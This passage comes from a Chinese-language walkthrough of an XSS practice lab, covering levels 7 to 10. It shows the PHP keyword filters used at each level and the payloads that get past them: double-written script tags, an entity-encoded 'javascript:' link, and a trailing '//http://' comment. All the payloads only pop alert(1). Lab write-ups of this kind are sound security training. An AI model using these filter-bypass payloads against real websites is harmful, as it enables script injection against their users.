 果然全部换为空，但是php特性，替换只会替换一个，比如`<scriscriptpt>`就会被替换为`<script>`，这就是双写绕过？
`"> <scriscriptpt>alert(1)</scriscriptpt>`

**level8**  
尝试原始payload，发现会被替换`<scr_ipt>alert(1)</scr_ipt>`，并且是链接形式，好像没啥区别，看源码
```
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```

新增的是双引号被过滤了，
`"> <a href=javascript:alert(1)>hack</a>`进去变成`<a hr_ef=javascr_ipt:alert(1)>hack</a>`，href可以通过大写绕过，但是javascript怎么搞

HTML 实体有两种写法，第一种是 &entity_name; 形式，比如 `$lt;` 表示小于号，"&"开头，";"结尾；第二种是 &#entity_number; 形式，其中 entity_number 是字符的实体编号，比如 `&#60;` 也能表示小于号。使用第二种方式，任何字符（包括 ASCII 字符）都有其实体表示。https://mothereff.in/html-entities 可以提供转换，"&#"开头，";"结尾

突然想起来这个是要加入到链接的，HREF不用写的
`javascr&#x69;pt:alert(1)`

**level9**  
尝试上一题的payload，回显`<a href="您的链接不合法？有没有！">`，看看源码

```
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);

false===strpos($str7,'http://')
```

与上一题不同的就是添加了对http的验证,我们在后面加上注释，写上http://就行了
`javascr&#x69;pt:alert(1)//http://`

### level10~16(字段注入)

**level10**  
尝试老payload，发现无特别回显，看看源码

```
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);

<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
```
